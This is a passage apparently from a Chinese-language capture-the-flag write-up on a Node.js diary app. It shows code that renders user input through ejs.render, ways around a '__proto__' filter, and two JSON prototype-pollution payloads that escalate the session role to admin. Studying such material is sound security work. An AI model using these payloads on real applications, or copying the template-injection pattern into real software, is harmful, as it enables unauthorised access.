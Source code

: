 ```javascript
});

app.all('/', (req, res) => {
    if (!req.session.data || !req.session.data.username || req.session.role !== 'admin') {
        return res.redirect("/login")
    }
    if (req.method == 'POST') {
        let diary = ejs.render(`<div>${req.body.diary}</div>`)
        req.session.diary = diary
        return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
    }
    return res.render('diary', {diary: req.session.diary, username: req.session.data.username});
})


app.listen(8888, '0.0.0.0');
```

有`merge(data, req.body)`函数，过滤了`__proto__`还可以用下面的

```javascript
objectname["__proto__"]
objectname.__proto__
objectname.constructor.prototype
```

payload

```json
{
    "username": "123",
    "password": "123",
    "constructor": {
        "prototype": {
            "role": "admin"
        }
    }
}
```

或者

```
{
    "username": "123",
    "password": "123",
    "constructor": {
        "prototype": {
            "role": "admin",
            "data":{"username":"admin"}
        }
    }
}
```
